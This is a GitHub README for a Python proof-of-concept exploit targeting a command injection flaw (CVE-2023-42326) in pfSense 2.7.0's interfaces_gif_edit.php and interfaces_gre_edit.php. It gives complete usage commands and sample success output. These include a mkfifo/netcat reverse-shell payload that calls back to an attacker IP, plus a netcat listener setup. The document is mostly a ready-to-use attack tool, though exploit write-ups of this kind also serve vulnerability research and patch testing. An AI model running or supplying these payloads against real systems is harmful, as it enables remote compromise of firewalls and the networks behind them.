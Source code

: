 
# pfSense 2.7.0 Command Injection Exploit (CVE-2023-42326)

This Python script is a Proof-of-Concept (PoC) exploit for the command injection vulnerability (CVE-2023-42326) in pfSense 2.7.0. The vulnerability allows authenticated attackers to inject and execute arbitrary commands via the `interfaces_gif_edit.php` and `interfaces_gre_edit.php` components.

## Features
- Exploit mode selection (`gif` or `gre`) to choose the vulnerable components.
- Command injection capability to run arbitrary shell commands.
- Netcat reverse shell handling with automatic thread management.
- Debug mode for enhanced visibility of request data.

## Prerequisites
Before running the script, make sure you have:
- Python 3.x installed on your system.
- Required Python libraries installed:
  ```bash
  pip install requests beautifulsoup4 rich
  ```

## Usage

### Basic Example (Command Injection)

This command injects a shell command that creates a reverse shell back to your machine:

```bash
python3 exploit.py -u "admin" -p "pfsense" --mode "gif" -t "http://10.101.1.1" -c "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.151.1 80 > /tmp/f &"
```

- `-u`: Username for pfSense admin login.
- `-p`: Password for pfSense admin login.
- `--mode`: Exploit mode (either `gif` or `gre`).
- `-t`: Target URL of pfSense.
- `-c`: The shell command to inject.
- `-d`: (Optional) Enable debug mode to see raw response data.

### Reverse Shell Example
Ensure you have a Netcat listener running on your machine:

```bash
nc -lvnp 80
```

Then, run the script with a reverse shell command like this:

```bash
python3 exploit.py -u "admin" -p "pfsense" --mode "gif" -t "http://10.101.1.1" -c "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.151.1 80 > /tmp/f &"  --insecure(for https without valid ssl)
```

### Demo GIFs

1. **Logging into pfSense and Exploiting GIF Interface**

   ![Demo 1 - GIF Interface](img/demo.gif)

2. **Executing a Reverse Shell**

   ![Demo 2 - Reverse Shell](img/example.png)

### Script Options
| Argument      | Description                                                        |
|---------------|--------------------------------------------------------------------|
| `-u`          | Username for pfSense admin login.                                  |
| `-p`          | Password for pfSense admin login.                                  |
| `-t`          | Target pfSense URL/IP address (e.g., `http://10.101.1.1`).         |
| `--mode`      | Exploit mode: `gif` (for `interfaces_gif_edit.php`) or `gre`.      |
| `-c`          | Command to inject into the vulnerable component.                   |
| `-d`          | Optional. Enable debug mode to print response data for visibility. |

### Example Output
When the exploit runs successfully, you should see output similar to this:

```bash
██████╗ ███████╗██████╗ ██╗    ██╗███╗   ██╗███╗   ███╗███████╗
██╔══██╗██╔════╝██╔══██╗██║    ██║████╗  ██║████╗ ████║██╔════╝
██████╔╝█████╗  ██████╔╝██║ █╗ ██║██╔██╗ ██║██╔████╔██║█████╗  
██╔═══╝ ██╔══╝  ██╔═══╝ ██║███╗██║██║╚██╗██║██║╚██╔╝██║██╔══╝  
██║     ██║     ██║     ╚███╔███╔╝██║ ╚████║██║ ╚═╝ ██║███████╗
╚═╝     ╚═╝     ╚═╝      ╚══╝╚══╝ ╚═╝  ╚═══╝╚═╝     ╚═╝╚══════╝

Done with ❤️  by @bl4ckarch                                                            
[2024-10-24 03:57:59] [SUCCESS] Target http://10.101.1.1 is reachable
[2024-10-24 03:57:59] [INFO] Fetching CSRF token from: http://10.101.1.1/
[2024-10-24 03:57:59] [SUCCESS] CSRF token extracted successfully
[2024-10-24 03:57:59] [INFO] Sending GIF exploit request to http://10.101.1.1/interfaces_gif_edit.php
[2024-10-24 03:57:59] [SUCCESS] GIF Exploit sent successfully
```

### Notes

- **Privilege Requirement**: You must have valid admin credentials for the pfSense instance.
- **Target System**: This exploit is specific to pfSense 2.7.0.
- **Reverse Shell**: Ensure your firewall settings allow incoming connections on the specified port when setting up a reverse shell.

### Debug Mode

If you want to see more details about the requests being sent, you can enable debug mode by adding `-d` to your command. This will print out response data and help you troubleshoot any issues.

```bash
python3 exploit.py -u "admin" -p 'pfsense' --mode 'gif' -t http://10.101.1.1 -c "your_command_here" -d --insecure(for https without valid ssl)
```

### Troubleshooting
- Ensure the target system is reachable.
- Double-check the credentials being used for login.
- Use the `-d` flag for more detailed logging if needed.


